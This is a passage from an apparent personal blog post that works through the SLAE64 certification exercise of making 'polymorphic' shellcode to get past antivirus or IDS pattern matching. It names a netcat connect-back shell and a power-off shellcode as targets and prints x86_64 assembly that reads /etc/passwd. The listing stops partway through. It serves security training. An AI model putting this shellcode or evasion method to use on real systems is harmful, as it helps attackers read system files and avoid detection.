 title: Polymorphic Shellcode
date: 2018-05-19
published: true 
summary: My solution to SLAE64 Exam Question 6
tags: shellcode, exploit, assembly

#Polymorphic Shellcode

This is my solution to the sixth exam question of the SLAE64 certification. This exercise was to pick 3 shellcodes from [shell-storm](http://shell-storm.org/shellcode/) and create "polymorphic" versions of them to defeat pattern matching (theoretically antivirus or a snort rule or something along those lines). "Polymorphic" in this context was basically just used to indicate that the shellcode bytes should be very different than the original, or different instructions to do the same thing. I think a more accepted use of that term in computer science refers to functions which perform the same action on different object types, but I guess the word's usage here is *sort of* along the same lines.

The lone constraint was the polymorphic version could not be longer than 150% the original shellcode (with bonus points for decreasing the length).

There were quite a few Linux x86_64 options to choose from. I chose the following three:

* [Read /etc/passwd](http://shell-storm.org/shellcode/files/shellcode-878.php) (because i work with that guy) 

* [connect back shell with netcat](http://shell-storm.org/shellcode/files/shellcode-823.php) (because netcat is my second favorite cat behind the one on the home page of this website)

* [reboot(POWER_OFF)](http://shell-storm.org/shellcode/files/shellcode-602.php) (because i thought it would be fun to end this post by shutting down) 

###Read /etc/passwd:

Here is the original shellcode:

    BITS 64
    ; Author Mr.Un1k0d3r - RingZer0 Team
    ; Read /etc/passwd Linux x86_64 Shellcode
    ; Shellcode size 82 bytes
    global _start

    section .text

    _start:
    jmp _push_filename
      
    _readfile:
    ; syscall open file
    pop rdi ; pop path value
    ; NULL byte fix
    xor byte [rdi + 11], 0x41
      
    xor rax, rax
    add al, 2
    xor rsi, rsi ; set O_RDONLY flag
    syscall
      
    ; syscall read file
    sub sp, 0xfff
    lea rsi, [rsp]
    mov rdi, rax
    xor rdx, rdx
    mov dx, 0xfff; size to read
    xor rax, rax
    syscall
      
